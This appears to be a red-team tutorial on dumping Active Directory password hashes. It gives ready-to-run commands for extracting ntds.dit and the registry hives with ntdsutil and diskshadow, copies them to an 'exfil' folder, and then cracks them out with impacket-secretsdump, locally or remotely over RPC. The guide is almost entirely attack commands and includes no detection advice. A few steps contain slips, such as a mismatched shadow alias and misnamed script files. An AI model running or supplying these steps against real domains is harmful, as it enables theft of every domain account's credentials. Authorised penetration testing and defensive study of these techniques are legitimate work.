

# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials - ntdsutil

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:



```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```



We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:



We can then dump password hashes offline with impacket:



```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```




## No Credentials - diskshadow

On Windows Server 2008+, we can use diskshadow to grab the ntdis.dit.

Create a shadowdisk.exe script instructing to create a new shadow disk copy of the disk C \(where ntds.dit is located in our case\) and expose it as drive Z:\


```erlang
set context persistent nowriters
set metadata c:\exfil\metadata.cab
add volume c: alias trophy
create
expose %someAlias% z:
```


...and now execute the following:

```erlang
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```

Below shows the ntds.dit got etracted and placed into our c:\exfil folder:


Inside interactive diskshadow utility, clean up the shadow volume:

```text
diskshadow.exe
    > delete shadows volume trophy
    > reset
```

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```text
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```


## References







